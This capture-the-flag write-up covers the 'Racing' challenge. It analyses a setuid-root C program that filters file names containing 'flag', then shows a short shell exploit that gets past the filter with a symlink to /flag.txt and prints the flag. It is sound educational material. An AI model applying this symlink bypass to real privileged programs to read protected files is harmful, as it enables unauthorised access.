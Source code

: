 # Racing (100)

## CTFd Entry

Cars 1 is my favorite movie, what's yours?

`ssh user@34.148.242.227 -p 2222. The password is racing-chals.`

Author: atom

## Attachments

[chal.c](./chal.c)

## Writeup

Note: Since the CTF infrastructure is down, I will self-host the challenge using the provided source code. The challenge will be hosted on a locally defined host `racing.chal` instead of the specified IP.

### Enumerating SSH access

You are provided SSH access to an Ubuntu instance that contains two unexpected files in the root directory. These files are:

- challenge/
- flag.txt

```bash
user@13ce3628d603:/$ ls -l
total 76
lrwxrwxrwx   1 root root    7 Apr 22  2024 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 22  2024 boot
drwxr-xr-x   1 root root 4096 Jan 20 12:12 challenge
drwxr-xr-x   5 root root  340 Jan 20 12:16 dev
drwxr-xr-x   1 root root 4096 Jan 20 12:16 etc
-r--------   1 root root   34 Jan 15 09:26 flag.txt
drwxr-xr-x   1 root root 4096 Jan 20 12:12 home
lrwxrwxrwx   1 root root    7 Apr 22  2024 lib -> usr/lib
drwxr-xr-x   2 root root 4096 Jul  1  2024 lib.usr-is-merged
lrwxrwxrwx   1 root root    9 Apr 22  2024 lib64 -> usr/lib64
drwxr-xr-x   2 root root 4096 Nov 19 09:46 media
drwxr-xr-x   2 root root 4096 Nov 19 09:46 mnt
drwxr-xr-x   2 root root 4096 Nov 19 09:46 opt
dr-xr-xr-x 413 root root    0 Jan 20 12:16 proc
drwx------   1 root root 4096 Jan 20 12:12 root
drwxr-xr-x   1 root root 4096 Jan 20 12:17 run
lrwxrwxrwx   1 root root    8 Apr 22  2024 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Nov 19 09:46 srv
dr-xr-xr-x  13 root root    0 Jan 20 12:17 sys
drwxrwxrwt   1 root root 4096 Jan 20 12:12 tmp
drwxr-xr-x   1 root root 4096 Nov 19 09:46 usr
drwxr-xr-x   1 root root 4096 Nov 19 09:52 var
```

The `flag.txt` is owned by root and can only be read by the owner of the file. Since the `challenge` folder does not exist in a default installation of Ubuntu, I was immediately interested in the contents of this folder.

The contents of the folder contains a binary called `chal` with a SetUID bit. As the binary is owned by root, this means that when the binary is executed by any user, it will be executed as the root user. This is because the SetUID permission executes the binary as the owner of the file. This is a well-known feature and is only a security concern depending on the functionality of the binary. 

```bash
-rwsr-xr-x 1 root root 16480 Jan 20 12:12 chal
```

Fortunately, we are provided the source code of the `chal` binary as apart of the attachments of the challenge named `chal.c`.

### Source Code Analysis

The source code is quite simple and I will step through each section of the code and give a brief description of what it does. You can use AI tools to describe this code quite accurately such as ChatGPT if you require more details.

Ensure that the UID is set to 0 which means that the owner of the binary must be root.

```c
    if (setuid(0) != 0)
    {
        perror("Error setting UID");
        return EXIT_FAILURE;
    }
```

The `fn` variable specifies a filepath, `buffer` is used to store the contents of a file that is read and `f` will contain a user-inputted string. The user-inputted string will be the path of a file that is read by the program and its contents stored in `buffer`.

```c
    char *fn = "/home/user/permitted";
    char buffer[128];
    char f[128];
    FILE *fp;
```

Check if filepath specified by the `fn` variable which is `/home/user/permitted` exists and is readable.

```c
if (!access(fn, R_OK))
```

Take user input to save in the variable `f` and removes any newlines characters.

```c
        printf("Enter file to read: ");
        fgets(f, sizeof(f), stdin);
        f[strcspn(f, "\n")] = 0;
```

Check if the inputted string contains the word `flag`. If it does, then the program will exit. This is an access control mechanism to prevent a user from reading the `flag.txt` file.

```c
        if (strstr(f, "flag") != NULL)
        {
            printf("Can't read the 'flag' file.\n");
            return 1;
        }
```

If the length of the inputted string is 0, it will open the file defined at `fn` which is `/home/user/permitted`. Otherwise, it will open the user-specified file.

```c
        if (strlen(f) == 0)
        {
            fp = fopen(fn, "r");
        }
        else
        {
            fp = fopen(f, "r");
        }
```

Read the contents into the variable `buffer` and output the contents onto the console. 

```c
        fread(buffer, sizeof(char), sizeof(buffer) - 1, fp);
        fclose(fp);
        printf("%s\n", buffer);
        return 0;
```

### Exploitation

The objective of this challenge is to read the `flag.txt` but we are under the restriction where the user-input to specify a file to read cannot contain the word `flag`. In order to bypass this, we can create a file that is a soft symlink (symbolic link) that points to the `flag.txt` file. This ensures that we can specify a filename that doesn't contain the word `flag` and read the contents of the linked file which will be `flag.txt`

The following command creates a symlink called `solopie` that points to the file `/flag.txt`:

```bash
user@13ce3628d603:~$ ln -s /flag.txt solopie
user@13ce3628d603:~$ ls -l
total 0
lrwxrwxrwx 1 user user 9 Jan 20 12:56 solopie -> /flag.txt
```

Now we can execute the binary and specify the file `solopie` to read `flag.txt`. However, first we need to ensure that the file `/home/user/permitted` exists due to the `access` function. We should get the contents of `flag.txt` outputted which is the flag.

```bash
user@13ce3628d603:~$ touch /home/user/permitted
user@13ce3628d603:~$ /challenge/chal
Enter file to read: solopie
uoftctf{r4c3_c0nd1t10n5_4r3_c00l}
```